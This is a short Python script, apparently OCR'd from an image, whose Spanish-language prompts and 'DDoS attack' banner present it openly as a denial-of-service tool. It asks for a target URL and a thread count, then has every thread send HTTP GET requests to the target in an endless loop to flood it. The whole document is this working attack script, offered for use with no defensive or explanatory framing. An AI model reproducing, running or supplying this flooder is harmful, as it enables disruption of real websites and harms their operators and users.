import threading
import requests

def ddos(target_url):
    while True:
        try:
            response = requests.get(target_url)
            if response.status_code != 200:
                print(f"Servidor respondiendo con estado: {response.status_code}")
        except requests.exceptions.RequestException as e:
            print(f"Error al realizar la solicitud: {e}")

def start_ddos(target_url, num_threads):
    threads = []
    for _ in range(num_threads):
        thread = threading.Thread(target=ddos, args=(target_url,))
        thread.start()
        threads.append(thread)

    for thread in threads:
        thread.join()

if __name__ == "__main__":
    print("""
 ____  ____   ___  ____          _   _             _
|  _ \\|  _ \\ / _ \\/ ___|    __ _| |_| |_ __ _  ___| | __
| | | | | | | | | \\___ \\   / _` | __| __/ _` |/ __| |/ /
| |_| | |_| | |_| |___) | | (_| | |_| || (_| | (__|   <
|____/|____/ \\___/|____/   \\__,_|\\__|\\__\\__,_|\\___|_|\\_\\
""")

    target_url = input("Ingresa la URL objetivo: ")
    num_threads = int(input("Ingresa el número de hilos (para más tráfico, usa un número mayor): "))

    print(f"Iniciando ataque DDoS a {target_url} con {num_threads} hilos...")
    start_ddos(target_url, num_threads)
